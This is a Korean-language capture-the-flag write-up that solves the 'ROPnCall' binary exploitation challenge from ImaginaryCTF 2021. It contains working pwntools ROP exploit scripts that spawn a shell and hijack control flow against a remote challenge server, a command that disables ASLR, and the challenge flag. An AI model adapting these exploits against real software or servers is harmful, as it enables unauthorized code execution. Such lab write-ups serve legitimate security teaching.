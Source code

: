 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-55-37.png)

첨부파일

[ROPnCall.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20ImaginaryCTF%20Round10/ROPnCall/file/ROPnCall.zip)


# **Write-Up**

해당 파일의 NX 를 확인하면 활성화되어 있으면서, 동적 라이브러리를 사용한다.

* NX Bit : 프로세스 명령어나 코드 또는 데이터 저장을 위한 메모리 영역을 따로 분리하는 CPU의 기술 NX특성으로 지정된 모든 메모리 구역은 데이터 저장을 위해서만 사용되며, 프로세스 명령어가 그 곳에 상주하지 않음으로써 실행되지 않도록 만들어 준다.
* Canary :Canaries 또는 Canary word는 버퍼 오버 플로우를 모니터하기 위해 버퍼와 제어 데이터 사이에 설정 된 값 버퍼 오버플로가 발생하면 Canary 값이 손상되며, Canaries 데이터의 검증에 실패하여, 오버플로에 대한 경고가 출력되고, 손상된 데이터를 무효화 처리 

![](images/2022-05-18-19-55-51.png)
![](images/2022-05-18-19-55-56.png)

* NX Bit 컴파일 옵션

    NX-disabled : gcc -z execstack -o disabled source.c
    
    NX-enabled : gcc -o enabled source.c

gdb로 확인해보면 gets함수에서 overflow가 터지는 취약점이 존재한다.

```
0x00000000004012d4 <+91>:    lea    -0x10(%rbp),%rax
0x00000000004012d8 <+95>:    mov    %rax,%rdi
0x00000000004012db <+98>:    mov    $0x0,%eax
0x00000000004012e0 <+103>:   callq  0x4010a0 <gets@plt>
```

rp++을 이용하여 pop rdi pop ret Gadget offset을 구한다.

```sh
root@ubuntu:~# ./rp-lin-x64 -f /lib/x86_64-linux-gnu/libc.so.6 -r 3 | grep "pop rdi ; pop"
0x00022203: pop rdi ; pop rbp ; ret  ;  (1 found)
...
```

ASLR을 해제(echo 0 > /proc/sys/kernel/randomize_va_space)하고 로컬 파일을 불러와 테스트해본다.

```py
e = ELF("./ROPnCall", checksec=False)
libc = e.libc
libc.address = 0x00007ffff79e2000

system_addr = libc.symbols['system']
shell_addr  = next(libc.search("/bin/sh".encode()))

r = ROP(e)
gadget = libc.address + 0x00022203

p = process("./ROPnCall")
payload = b''
payload += b'A'*(16 + 8)
payload += p64(gadget)
payload += p64(shell_addr)
payload += b'A'* 8
payload += p64(system_addr)
p.recvuntil('what else?')
p.sendline(payload)
p.interactive()

[Output]
root@ubuntu:~# [*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 17 cached gadgets for './ROPnCall'
[+] Starting local process './ROPnCall': pid 16803
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
```

* ASLR : 메모리 손상 취약점 공격을 방지하기 위한 기술

스택, 힙, 라이브러리, 등의 주소를 랜덤한 영역에 배치하여, 공격에 필요한 Target address를 예측하기 어렵게 만듦

프로그램이 실행 될 때 마다 각 주소들이 변경됨

shell을 획득하는데 성공했으니 문제의 서버로 exploit해보면 shell을 얻지 못한다. 따라서 ASLR이 적용되어 있다고 본다.

```py
e = ELF("./ROPnCall", checksec=False)
libc = e.libc
libc.address = 0x00007ffff79e2000

system_addr = libc.symbols['system']
shell_addr  = next(libc.search("/bin/sh".encode()))

r = ROP(e)
gadget = libc.address + 0x00169c0b # pop rdi; pop rbp; ret;

p = remote('20.94.210.205', 1337)
payload = b''
payload += b'A'*(16 + 8)
payload += p64(gadget)
payload += p64(shell_addr)
payload += b'A'* 8
payload += p64(system_addr)
p.recvuntil('what else?')
p.sendline(payload)
p.interactive()

[Output]
...
[+] Opening connection to 20.94.210.205 on port 1337: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
```

strings을 사용해서 "flag" 문자열을 찾아보니 ROPnCall 바이너리에 들어있었고, 해당 주소로 가보니 flag.txt를 읽어서 출력하는 로직(0x4011BA)이 있다.

![](images/2022-05-18-19-58-47.png)

0x4011C2 ~ 0x4011D2까지 여러 레지스터로부터 [rbp-0x54] ~ [rbp-0x68]까지 데이터를 저장하는 것으로 보아 gadget은 pop edi; ret; pop esi; ret; ~ 이 필요하다.

![](images/2022-05-18-19-58-56.png)

그리고 레지스터에는 다음의 이미지처럼 지정된 값이 들어가 있어야하고, [rbp+0x10]에도 overflow를 일으켜 데이터를 저장시켜줘야 한다.

![](images/2022-05-18-19-59-03.png)

최종 exploit 코드는 다음과 같다.

```py
from pwn import *
# on Linux : pip install -U pip setuptools 
context(arch='amd64')
p = remote('20.94.210.205', 1337)
e = ELF("./ROPnCall", checksec=False)
r = ROP(e)
flag_addr = 0x4011ba

payload = b''
payload += b'A'*(16 + 8)
payload += p64(r.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(0xACC01ADE)
payload += p64(r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0])
payload += p64(0xB1A5ED0F)
payload += b'A'*8
payload += p64(r.find_gadget(['pop rdx', 'ret'])[0])
payload += p64(0xDEADBEEF)
payload += p64(r.find_gadget(['pop rcx', 'ret'])[0])
payload += p64(0xBA5EBA11)
payload += p64(0x0040126e) # pop r8 ret
payload += p64(0x1337C0DE)
payload += p64(0x00401271) # pop r9 ret
payload += p64(0xC001C0DE)
payload += p64(flag_addr)
payload += b'A'*8
payload += p64(0xDEA110C8)

p.recvuntil('what else?')
p.sendline(payload)
p.recv()
print(p.recv().decode())

[Output]
[+] Opening connection to 20.94.210.205 on port 1337: Done
[*] Loaded 17 cached gadgets for './ROPnCall'
ictf{linux_x86-64_follows_system_v_amd64_abi_calling_convention}

[*] Closed connection to 20.94.210.205 port 1337
```


# **FLAG**

**ictf{linux_x86-64_follows_system_v_amd64_abi_calling_convention}**